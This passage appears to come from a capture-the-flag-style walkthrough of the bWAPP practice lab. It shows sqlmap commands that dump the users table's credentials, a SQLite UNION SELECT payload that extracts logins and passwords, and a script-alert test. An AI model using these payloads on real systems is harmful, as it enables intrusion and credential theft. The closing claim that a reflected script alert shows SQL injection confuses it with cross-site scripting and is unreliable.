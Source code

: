 ![](https://cdn-images-1.medium.com/max/508/1*Onr1ZGdMDvRdlDKHApIkUg.png)

**Find the number of columns in the** `users` **table:**
<pre>
sqlmap -u "http://localhost:8080/sqli_16.php" --cookie="security_level=0; PHPSESSID=tddqn82n8ifcq12dpgvum4i510" --data="login=jnkjg&password=kjhb&form=submit" -D bWAPP -T users --columns</pre>

![](https://cdn-images-1.medium.com/max/319/1*4huDoaUmyz3FhFrq5UJ9vQ.png)

**Retrieving the data from** `users` **table:**
<pre>
sqlmap -u "http://localhost:8080/sqli_16.php" --cookie="security_level=0; PHPSESSID=tddqn82n8ifcq12dpgvum4i510" --data="login=jnkjg&password=kjhb&form=submit" -D bWAPP -T users -C email,id,login,password,secret --dump</pre>

![](https://cdn-images-1.medium.com/max/1024/1*OjyQLprbZ9IwFPsdWQsR8w.png)

---

### SQL Injection (SQLite)

![](https://cdn-images-1.medium.com/max/693/1*4sbxPicLyZnVeK7TWc5BMw.png)

We can use the same method as in `GET/SEARCH`. The only difference here is the database: it’s `SQLite`.  
Instead of information_schema (used in MySQL), **SQLite** uses the `sqlite_master` table, which contains metadata about all tables in the database.  
Like the other challenges, this one also has a users table, which we identified using the sqlite_master table in SQLite.

**Payload to retrieve the data from** **users table:**
<pre>
' UNION SELECT NULL, GROUP_CONCAT(id || ':' || login || ':' || password || ':' || email || ':' || secret), NULL, NULL, NULL, NULL, NULL FROM users -- -</pre>

---

### SQL Injection — Stored (Blog)

![](https://cdn-images-1.medium.com/max/760/1*C61l2gxHY6Y3St2-DQwwyw.png)

This is stored SQL injection where user enters the payload and the payload is reflected when the page is loading what the user enters. eg: comments

Let’s enter 
```
<script>alert(1)</script>
```
to see if the alert is getting reflected.

We have got the alert which tells us that this is vulnerable to SQLi

Booooooommm!!!

---